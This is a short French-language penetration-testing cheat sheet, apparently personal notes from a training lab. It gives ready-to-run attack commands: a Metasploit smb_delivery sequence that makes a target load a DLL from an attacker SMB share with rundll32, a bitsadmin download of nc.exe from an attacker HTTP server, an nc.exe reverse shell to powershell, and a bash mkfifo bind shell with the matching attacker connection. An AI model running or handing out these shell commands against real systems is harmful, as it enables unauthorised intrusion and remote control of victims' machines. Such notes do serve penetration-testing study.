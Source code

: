 ### METERPRETER

Charger DLL a distance depuis partage SMB

```shell
search smb_delivery
```

```shell-session
use 0
```

```shell-session
show options
```

```shell-session
show targets
```

```shell-session
set target 0
```

```
run
```

Depuis la target

```shell-session
rundll32.exe \\<attacker-ip>\lEUZam\test.dll,0
```

### NC.EXE

Si aucun shell ne fonction transférer nc.exe sur la victime (depuis un webshell par exemple)

```cmd
bitsadmin /transfer wcb /priority foreground http://10.10.16.4:8000/nc.exe C:\Users\Gerald\nc.exe
```

Lancer listener puis executer nc.exe

```
C:\Users\Gerald\nc.exe 10.10.16.4 9443 -e powershell
```


---
# **BIND SHELLS**

### BASH

sur la target
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 8000 > /tmp/f
```

puis depuis attacker
```shell
nc -nv 10.129.41.200 8000
```

